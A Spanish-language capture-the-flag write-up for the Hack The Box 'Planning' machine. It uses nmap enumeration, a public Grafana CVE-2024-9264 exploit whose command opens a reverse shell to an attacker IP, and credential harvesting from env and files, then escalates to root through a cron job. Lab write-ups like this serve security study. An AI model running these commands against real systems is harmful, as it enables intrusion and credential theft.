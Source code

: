 ```yaml
---
layout: post
title:  "Planning Machine (Easy)"
os: Linux
date:   2024-04-05 17:04:54 +0100
categories: ["OS Command Injection", "Brute Force"]
---
```


Enumeración de puertos
```java
sudo nmap -sC -sV -p22,80 -Pn -n --open planning.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-13 18:53 CEST
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
```

Enumeración de directorios

![Nmap scan](/assets/machines/planning.htb/images/Pasted%20image%2020250813185055.webp)

Iniciar sesión Granfana
![](/assets/machines/planning.htb/images/Pasted%20image%2020250813185157.webp)

Versión Grafana.

![](/assets/machines/planning.htb/images/Pasted image 20250813185240.webp)

La versión de grafana v11.0.0 es vulnerable al CVE-2024-9264.

[z3k0sec/CVE-2024-9264-RCE-Exploit: Grafana RCE exploit (CVE-2024-9264)](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit?tab=readme-ov-file#description)

Establecer una reverse shell.
```bash
$ python poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.115 --reverse-port 9000
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 9000
```

![](/assets/machines/planning.htb/images/Pasted image 20250813184842.webp)

Una vez dentro somos ``root`` pero de un contenedor de Docker.

Contraseña encontrada: `RioTecRANDEntANT!` usando el comando `env`.

![](/assets/machines/planning.htb/images/2025-08-12_21-04.webp)

Usamos las credenciales `enzo:RioTecRANDEntANT!` para iniciar sesión por SSH.

El fichero `/var/www/web/enroll.php` contiene las credenciales root para la base de datos `root:EXTRapHY`. Pero no nos van a servir para nada.

![](/assets/machines/planning.htb/images/2025-08-12_21-03.webp)

Por otra parte, en `/opt/crontabs/crontab.db` encontraremos unas credenciales `P4ssw0rdS0pRi0T3c`.
![](/assets/machines/planning.htb/images/Pasted image 20250813182828.webp)

Hay un puerto 8000 abierto.
![](/assets/machines/planning.htb/images/Pasted image 20250813183047.webp)

Usar Port Forwarding para llegar al puerto 8000 desde la la máquina atacante.
![](/assets/machines/planning.htb/images/Pasted image 20250813183115.webp)

Iniciar sesión con las credenciales `root:P4ssw0rdS0pRi0T3c`.

![](/assets/machines/planning.htb/images/Pasted image 20250813183014.webp)
Crear un job con una reverse shell.
![](/assets/machines/planning.htb/images/Pasted image 20250813184305.webp)

Clicar en "Run now".

![](/assets/machines/planning.htb/images/Pasted image 20250813184319.webp)

Root txt
![](/assets/machines/planning.htb/images/Pasted image 20250813184355.webp)
